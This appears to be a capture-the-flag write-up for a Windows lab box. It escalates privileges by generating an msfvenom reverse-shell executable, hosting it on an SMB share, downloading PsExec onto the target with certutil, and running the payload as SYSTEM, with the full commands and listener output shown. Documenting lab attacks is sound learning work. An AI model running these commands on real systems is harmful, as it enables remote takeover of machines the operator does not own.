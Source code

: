 Search : `SeAssignPrimaryTokenPrivilege get all tokens`

> https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

### Psexec get all privilege tokens

Since powershell is not working for this box, try **psexec.exe** 

Which is a legit program from internalsuite signed by microsoft

Prepare **PsExec64.exe**

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ ln -s /opt/sectools/win/Sysinternals/PsExec64.exe .

┌──(kali㉿kali)-[~/thm/www]
└─$ python3 -m http.server 80
```

Prepare revshell on smb share

```bash
mkdir smb && cd smb
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1112 -f exe > rev.exe
smbserver.py s . -smb2support
rlwrap -r -f . nc -nlvp 1112
```

At Target:

> Using [LOLBas](https://lolbas-project.github.io/#/download) to download file

```bash
C:\Windows\system32>certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
certutil -urlcache -split -f http://10.11.19.145/PsExec64.exe psexec.exe
****  Online  ****
  000000  ...
  0cb7c0
CertUtil: -URLCache command completed successfully.
        
C:\Windows\system32>psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
psexec -accepteula -s cmd.exe /c \\10.11.19.145\s\rev.exe
```

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1112
listening on [any] 1112 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.150] 52186
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```
